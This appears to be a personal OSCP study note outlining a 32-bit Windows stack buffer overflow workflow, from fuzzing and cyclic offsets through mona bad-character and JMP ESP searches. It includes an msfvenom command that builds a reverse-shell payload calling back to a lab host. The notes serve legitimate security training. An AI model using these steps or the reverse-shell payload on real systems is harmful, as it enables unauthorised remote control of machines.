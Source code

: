 ```yaml
---
description: A *very* brief overview
---
```


# Binary Exploitation

During my studies to become OSCP certified I studied quite a bit but never delved too far into binary exploitation.  Here are a few takeaways and things that I occasionally look back at.  Mostly here's the high-level operational view.  Mind you, this is for a 32bit windows app lol

## Guide

1\. Start Immunity/app as administrator

#### 2. Confirm connectivity from kali

```
nc xxx.xxx.xxx.xxx port
```

#### 3. Fuzz for crash (Template - Fuzzer )

```
python3 fuzzer.py
```

#### 4. Generate cyclic pattern to find exact crash

```
[root@kali:/root]# cyclic 300
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
```

#### 5. Add pattern to "overflow" in exploit.py and repro crash

#### 6. Get offset from address in EIP and set "offset"

Get address in EIP and find number of bytes to EIP:

```
[root@kali:/r/c/CMBOF]# cyclic -l 0x61616275
2003
```

#### 7. Remove cyclic pattern from "overflow" and replace with "A" \* offset

```
offset = 634 # EIP @ 0x616A6761
overflow = b"A" * offset
eip = b"BBBB" # 
```

#### 8. Replicate crash and confirm "B" in EIP

#### 9. Find Bad Characters with mona

* Set working dir: `!mona config -set workingfolder C:\Windows\Temp`
* Create bytearray (without bad chars we know about) `!mona bytearray --cpb "\x00"`
* Include list chars in payload (without \x00)

```
badchars = [0x00] # start with null
```

* Repro crash with charpayload
* After the crash use mona to find the next bad char: `!mona compare -f C:\Windows\Temp\bytearray.bin -a esp`
* Note new bad char, add it to "badchars"
* Repeat steps until no new bad chars are reported

#### 10. Find Jump Point using bad chars (running or crashed) - will be in "Log Data" window

```
!mona jmp -r esp -cpb "\x00\x23\x3c\x83\xba"
```

#### 11. Put jmp address in "eip" var backwards (little endian)

```
eip = b"\xfa\x11\x50\x62" # 625011AF
```

#### 12. Generate shellcode without bad chars and add as "sc" var

```
[root@kali:/r/c/t/O/OVERFLOW2]# msfvenom -p windows/shell_reverse_tcp LHOST=10.11.4.230 LPORT=6666 EXITFUNC=thread -b "\x00\x23\x3c\x83\xba" -f python -v sc
```

#### 13. Add shellcode

#### 14. Add NOPs and comment out "charpayload"

```
padding = b"\x90" * 16
```



### Links

More questions?

* [dostackbufferoverflowgood](https://github.com/justinsteven/dostackbufferoverflowgood)
* [Exploit Development with PEDA and Pwntools](http://thecyberrecce.net/2017/07/28/exploit-development-with-afl-peda-and-pwntools/)
* [Hacktober CTF Challenge](https://veteransec.com/2018/10/19/hacktober-ctf-2018-binary-analysis-larry/)
* [\* Pwntools \*](https://github.com/Gallopsled/pwntools)
* [Ret to Rop](https://www.ret2rop.com)
* [Rop Emporium](https://ropemporium.com)
* [Stack Based Overflows](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/)



